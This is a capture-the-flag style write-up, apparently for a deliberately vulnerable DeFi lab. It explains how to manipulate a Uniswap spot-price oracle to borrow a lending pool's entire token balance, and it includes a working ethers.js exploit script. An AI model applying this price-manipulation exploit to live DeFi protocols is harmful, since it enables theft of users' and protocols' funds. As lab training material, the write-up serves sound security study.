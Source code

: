## Explanation
We have 25 eth and 1000 DVTs, the uniswap has 10 eth and 10 DVT which make 1 DVT == 1 eth.
So we want to manipulate the price of uniswap so that 1 eth will be more than 1 DVT

## ATTACK
1. First we approve uniswap to swap our token.
2. Get 9 eth from converting tokens to eth.
3. Now we deposit eth to gain all tokens.
4. Then we get our original 1000 tokens back by swapping eth.

```javascript
        const attackPuppet = this.lendingPool.connect(attacker);
        const attackToken = this.token.connect(attacker);
        const attackUniSwap = this.uniswapExchange.connect(attacker);
        // Approve token to swap with UniSwap
        await attackToken.approve(attackUniSwap.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        // Calculate ETH Pay out
        await attackUniSwap.tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE, // Exact amount of tokens to transfer
            ethers.utils.parseEther("9"), // we at least want to get 9 eth
            (await ethers.provider.getBlock('latest')).timestamp * 2, // max time for the transaction to be done
        )
        // Deposit ETH required to gain ALL tokens from the pool
        const deposit = await attackPuppet.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        await attackPuppet.borrow(POOL_INITIAL_TOKEN_BALANCE, {
            value: deposit
        })
        const ethReq = await attackUniSwap.getEthToTokenOutputPrice(ATTACKER_INITIAL_TOKEN_BALANCE,
        {
            gasLimit: 1e6
        })
        // Get our original 1000 tokens back by swapping eth
        await attackUniSwap.ethToTokenSwapOutput(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            (await ethers.provider.getBlock('latest')).timestamp * 2, // deadline
            {
                value: ethReq,
                gasLimit: 1e6
            }
        )
```